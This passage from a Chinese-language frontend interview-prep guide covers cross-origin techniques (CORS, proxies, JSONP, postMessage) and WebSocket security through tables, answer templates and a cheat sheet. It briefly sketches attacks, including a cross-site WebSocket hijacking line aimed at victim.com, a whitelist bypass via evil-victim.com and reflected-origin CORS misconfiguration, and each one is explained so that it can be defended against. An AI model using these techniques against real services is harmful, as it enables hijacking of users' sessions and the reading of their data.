| 15 | WS 只校验 Cookie 不校验 Origin | CSWSH，攻击者能读你的全部消息 |
| 16 | token 放 WS 的 URL query | 进服务器日志、代理日志、历史记录 |
| 17 | WS 连接建立后不再校验 token | 长连接活几小时，token 早过期了 |
| 18 | 不限制消息大小 | 一条超大消息就能打爆内存 |
| 19 | 不校验消息类型 | 未知类型走到 `default` 分支可能出问题 |
| 20 | `ws://` 在 HTTPS 页面里用 | 被浏览器当混合内容阻止 |

---

## 11. 答题模板

### 11.1 「前端怎么实现跨域」——30 秒

- 前提：同源策略是安全机制，跨域请求是正常需求；「解决跨域」是在边界上合法开口子。
- CORS 是标准做法，服务端返回 `Access-Control-Allow-Origin` 白名单；非简单请求先走 OPTIONS 预检。
- 代理最稳：Nginx 或 devServer 转发，浏览器看来是同源，Cookie 也天然同源。
- JSONP 只支持 GET、已淘汰；postMessage 只用于窗口间通信。
- 开发用 devServer proxy、生产用 Nginx 反代；真正危险的是 CORS 配错，不是跨域本身。

### 11.2 「前端怎么实现跨域」——2 分钟

- **判定**：协议、域名、端口三者全同才是同源；子域、有无 `www`、IP 与域名都算跨域。
- **边界**：同源策略限制「读响应」，不限制「发请求」；`img`/`script`/`form` 能跨站加载，`fetch` 读响应体必须有 CORS 授权。
- **CORS**：简单请求（GET/HEAD/POST + 安全头 + 三种 `Content-Type`）直接发；`application/json`、`Authorization`、`PUT` 等先发 OPTIONS。带 Cookie 时 `credentials: 'include'`、ACAO 回显具体源、`Allow-Credentials: true`，再加 `Vary: Origin`；`Max-Age` 别设太短，白名单必须精确匹配。
- **代理**：devServer proxy 注意 `changeOrigin: true`；生产 Nginx 反代注意 `proxy_pass` 末尾斜杠；需要聚合/鉴权/持有第三方密钥时升级为 BFF。
- **其余**：JSONP 已淘汰；postMessage 只做窗口通信，两处校验见 2.1。

### 11.3 「WebSocket 安全问题」——30 秒

- 握手是 HTTP GET + `Upgrade`，之后不再走 HTTP：**不受同源策略约束，也不走 CORS 预检**。
- 浏览器会带 `Origin`，但不会因不匹配而拦截；服务端不校验就会 CSWSH——攻击者页面借 Cookie 连上并能收发消息。
- 防御：校验 `Origin` 白名单，并且不只靠 Cookie 鉴权（token / 一次性 ticket）。
- 其余：`wss://`、token 不放 URL、长连接要校验 token 时效、消息逐条校验并限流。

### 11.4 ——2 分钟

- **核心认知**：WebSocket 不受 CORS 保护，浏览器发 `Origin` 但不拦截，防线必须自己补（7.1）。
- **CSWSH**：攻击者页面 `new WebSocket('wss://victim.com/ws')`，浏览器自动带受害者 Cookie，服务端只验 Cookie 就中招；WebSocket 双向，攻击者能**读**消息，比 CSRF 严重。防御是 Origin 白名单精确匹配。
- **Origin 的边界**：只能防浏览器发起的攻击，脚本可直接伪造，所以鉴权仍要靠 token。
- **传输与认证**：必须 `wss://`；Cookie 自动带（需配 Origin 校验）、URL query 不推荐（进日志/历史）、首条消息认证最干净（认证前拒绝其他消息 + 认证超时）。
- **长连接与消息层**：token 15 分钟过期而连接可能活几小时，要定时重验或主动断开；客户端输入全部不可信，校验类型/结构/长度/取值范围，限制单条消息大小、频率限流、心跳清理死连接。

---

## 12. 追问表

| # | 追问 | 要点 |
| --- | --- | --- |
| 1 | 同源的三要素？ | 协议 + 域名 + 端口 |
| 2 | 同源策略限制什么？ | 跨源**读**响应/DOM/Cookie；不限制发请求 |
| 3 | 为什么 CSRF 能成立？ | 因为发请求不受限制，只能靠 Token/SameSite |
| 4 | 简单请求的条件？ | 三方法 + 安全头 + 三种 Content-Type |
| 5 | 为什么会触发预检？ | 自定义头、`application/json`、非简单方法 |
| 6 | 预检能缓存吗？ | `Access-Control-Max-Age`，Chrome 上限 2 小时 |
| 7 | 带凭证时 ACAO 能是 `*` 吗？ | 不能，必须回显具体源 |
| 8 | CORS 能防 CSRF 吗？ | 不能，请求照发照执行，只阻止读响应 |
| 9 | 为什么白名单不能用 `includes`？ | `evil-victim.com` 能通过后缀匹配 |
| 10 | `Vary: Origin` 为什么重要？ | 防止 CDN 缓存串源 |
| 11 | 自定义响应头读不到怎么办？ | `Access-Control-Expose-Headers` |
| 12 | 预检能重定向吗？ | 不能，会报错 |
| 13 | JSONP 为什么淘汰？ | 只 GET、无自定义头、无错误处理、有 XSS 风险 |
| 14 | JSONP 的 XSS 怎么来的？ | callback 参数未校验，可注入任意 JS |
| 15 | 代理为什么最稳？ | 浏览器看来同源，无 CORS/Cookie 问题 |
| 16 | `changeOrigin` 作用？ | 改 Host 头，很多后端会校验 |
| 17 | WebSocket 受 CORS 保护吗？ | **不受**，握手不走 CORS |
| 18 | 什么是 CSWSH？ | 跨站 WebSocket 劫持，攻击者借用 Cookie 建立连接 |
| 19 | CSWSH 怎么防？ | 校验 Origin 白名单 + 鉴权 |
| 20 | Origin 校验能防脚本攻击吗？ | 不能，非浏览器可伪造 Origin；靠 token 鉴权 |
| 21 | WS 的 token 该放哪？ | 推荐首条消息；不要放 URL query |
| 22 | 长连接怎么处理 token 过期？ | 定时重验或过期主动断开 |
| 23 | `Sec-WebSocket-Key` 是鉴权吗？ | 不是，只用于计算 Accept，无安全性 |
| 24 | `SameSite=Lax` 能防 CSWSH 吗？ | 能挡一部分，但业务用 `None` 时失效，不能只靠它 |

---

## 13. 速记卡

```text
【同源】
协议 + 域名 + 端口 三者相同
限制「跨源读」（响应/DOM/Cookie）｜不限制「跨源发」
→ CSRF 因此成立；JSONP 因此可行

【跨域四方案】
CORS        标准，服务端 ACAO 白名单（生产首选）
代理        最稳，Nginx / devServer，浏览器看来同源（生产首选）
JSONP       仅 GET、无自定义头、无错误处理、callback 未校验会 XSS → 淘汰
postMessage 窗口间通信，不是请求；发送指定 targetOrigin、接收校验 origin

【CORS 两类请求】
简单：GET/HEAD/POST + 安全头 + 三种 Content-Type（含 text/plain）
预检：带 Authorization / application/json / PUT / DELETE → 先 OPTIONS

【CORS 三条硬规则】
带 Cookie → credentials:'include' + ACAO 必须是具体源（不能 *）+ Allow-Credentials:true
自定义响应头 → Access-Control-Expose-Headers
Max-Age 别太短（Chrome 上限 7200s），否则每请求多一次预检

【CORS 危险配置】
反射 req.headers.origin + credentials → 任何站都能读你的接口（比 CSRF 严重）
白名单用 includes/endsWith → evil-victim.com 绕过（用 Set.has）
漏 Vary: Origin → CDN 缓存串源

【WebSocket 核心认知】
握手是 HTTP GET + Upgrade，但不受同源策略约束、不走 CORS
浏览器会发 Origin，但不会因不匹配而阻止 → 必须服务端自己校验

【CSWSH】
攻击者页面 new WebSocket('wss://victim.com/ws')
浏览器自动带 Cookie → 服务端只验 Cookie 就中招
危害 > CSRF：能读消息 + 持久连接
防御：Origin 白名单（防浏览器）+ token 鉴权（防脚本伪造 Origin）

【WS 十条】
wss:// ｜ 校验 Origin ｜ 握手鉴权（首条消息最优）
token 不放 URL ｜ 认证超时 ｜ 限制消息大小与频率
校验每条消息类型/结构 ｜ 心跳 ｜ token 过期主动断开
不信任 Sec-WebSocket-Key
```
